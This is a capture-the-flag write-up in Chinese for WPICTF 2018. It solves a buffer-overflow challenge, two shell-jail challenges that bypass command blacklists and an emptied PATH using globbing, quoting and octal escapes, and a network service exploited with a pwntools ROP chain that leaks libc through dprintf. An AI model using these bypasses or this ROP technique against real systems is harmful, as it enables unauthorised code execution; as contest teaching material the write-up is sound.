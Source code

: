 # WPICTF 2018 - Notes

## ezpz
直接丟到 ida pro 看程式碼可以知道

他一開始會要我們輸入一串密碼，然後和 "EZPZPASSWORD" 這個環境變數比對值

如果對的話，就呼叫 correct_pw() 這個函數來把 "EZPZPASSWORD" 的值印出來

而程式在一執行就會印出 correct_pw() 這個函數地址給我們，所以直接

overflow 後跳 correct_pw() 即可


## Shell-JAIL-1
> Description:
> 
> Download the login private key, then run:
> 
> ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz
> 
> redundant servers on 31338 and 31339

題目給了一個 private key ，然後用此連上 server 


底下有三個檔案: access , access.c , flag.txt
```
28369edadf5f:/home/pc_owner$ ls -al
total 28
drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
-r-sr-sr-x    1 pc_owner pc_owner     10880 Apr 13 08:03 access
-r--r--r--    1 pc_owner pc_owner      1005 Apr 13 04:50 access.c
-r--r-----    1 pc_owner pc_owner        23 Apr 13 04:50 flag.txt
```

那可以看到 access 有 setuid，然後看一下 access.c 可以知道

他會把我們的輸入，餵給 system 來執行，只要裡面的指令不在黑名單即可

```
28369edadf5f:/home/pc_owner$ ./access cat "fl?g.t?t"
wpi{MaNY_WayS_T0_r3Ad}
===
28369edadf5f:/home/pc_owner$ ./access "cat fla'g'.'t'xt"
wpi{MaNY_WayS_T0_r3Ad}

```

## Shell-JAIL-2
> Description:
> 
> Download the login private key, then run:
> 
> ssh -p 31337 -i login shjail@shelljail2.wpictf.xyz


一樣有三個檔案
```
54cd9d6b47ef:/home/pc_owner$ ls -al
total 28
drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
-r-sr-sr-x    1 pc_owner pc_owner     10912 Apr 13 08:03 access
-r--r--r--    1 pc_owner pc_owner      1030 Apr 13 05:39 access.c
-r--r-----    1 pc_owner pc_owner        28 Apr 13 05:39 flag.txt
```

這題和第一題唯一的不同處在於其將 PATH 這個環境變數清空

所以直接用指令會不行，如
```
54cd9d6b47ef:/home/pc_owner$ ./access id
sh: id: not found
54cd9d6b47ef:/home/pc_owner$ ./access ls
sh: ls: not found
```

可以自己寫 code 驗證一下:
```
# a.c
#include <stdlib.h>
#include <stdio.h>

int main()
{
  setenv("PATH", "", 1);
  char *pathvar = getenv("PATH");
  printf("pathvar: %s\n", pathvar);
  return 0;
}
===
# gcc a.c -o a
# ./a
pathvar:

可以看到顯示為空，一般如果沒清空的話，大概會顯示如下:
pathvar: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

在沒有環境變數的情況下，如你要使用 cat ，需要下 /bin/cat

但我們還是可以使用 $, \, ' ，所以可以把 / 換成 $'\57'

57 是 ord('/') 的八進制，也是可以改成十六進制，也就是 $'\x2f' 是一樣的

這樣就可以用第一題的 payload 了
```
54cd9d6b47ef:/home/pc_owner$ ./access "$'\57'bin$'\57'cat $'\57'hom'e'$'\57'pc_ow'n'er$'\57'fla'g'.tx't'"
wpi{p0s1x_sh3Lls_ar3_w13rD}

```

另解:
```
54cd9d6b47ef:/home/pc_owner$ ./access pwd
/home/pc_owner
```
我們可以使用 . (source)
```
54cd9d6b47ef:/home/pc_owner$ ./access . "fla?.?xt"
sh: flag.txt: line 1: wpi{p0s1x_sh3Lls_ar3_w13rD}: not found
```

## Forker.1
> Description:
>
> nc forker1.wpictf.xyz 31337
> 
> redundant servers on 31338 and 31339
> 
> Hint: ASLR is disabled on the server

這題保護全部沒開，根據題目提示也知道沒有 aslr

丟到 ida pro 看一下程式碼，可以知道會在本地開 31337 port 

然後密碼是 INTERNET_FUNNY_MUNNY

整個簡單使用過程如下:

```
## Server Side
$ ./a 
## 開 server

===

## Client Side
$ nc localhost 31337 ## connect to server 
Please enter the correct password to get my secret ltc info
Password:INTERNET_FUNNY_MUNNY
You got the password right!
My litecoin address is LNpECGn9in6BGC8eaK87QawjzAXaWMht2b
```

雖然他沒開 ASLR ，但我們不知道他的 libc.so (沒給)，所以還是需要先 leak

來算出他的 libc.so 版本，之後再 overflow 控 rip 來 get shell

唯一需要注意的是，我們在overflow 時，當蓋到 buf[77]會影響到 index

所以用 p64(0x4d) 把她設對，位置可以看  ida pro 上

```
__int64 __fastcall check_password(int input)
{
  int tmp_index; // eax@2
  char tmp; // [sp+1Fh] [bp-51h]@1
  char buf_1[76]; // [sp+20h] [bp-50h]@2
  int index; // [sp+6Ch] [bp-4h]@1
```


然後利用 dprintf() 來 leak information ，dprintf() 使用方式是

dprintf(fd, format) ，這題是 socket ，fd = 4 = accept ，所以可以用

dprintf(4, puts@got ) 這樣來 leak 


可以先這樣leak 兩個function 然後利用[網站](https://libc.blukat.me/?q=read%3A010%2Cputs%3A460&l=libc6_2.26-0ubuntu3_amd64)來找他的 libc

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
#r = remote('127.0.0.1', 31337)
r = remote('forker1.wpictf.xyz', 31337)
print "pid: ",proc.pidof(r)

password = "INTERNET_FUNNY_MUNNY"
pop_rdi = 0x0000000000400c13
pop_rsi_r15 = 0x0000000000400c11
puts_got = 0x0602020
read_got = 0x602050
dprintf_plt = 0x400800
raw_input("#")

trash = "a"*76+p64(0x4d)+"a"*4 
pad1 = flat([pop_rdi, 4, pop_rsi_r15, read_got, 0, dprintf_plt])

r.sendline(trash + pad1)
r.recvuntil("Password:")
addr = u64(r.recv(8).ljust(8, '\x00'))
print "addr: ",hex(addr)
r.interactive()
```


得到 libc 就可以去 get shell 了，只是自己沒學過 dup2 ...

solve.py 寫得很醜

[參考](https://ctftime.org/task/5877)





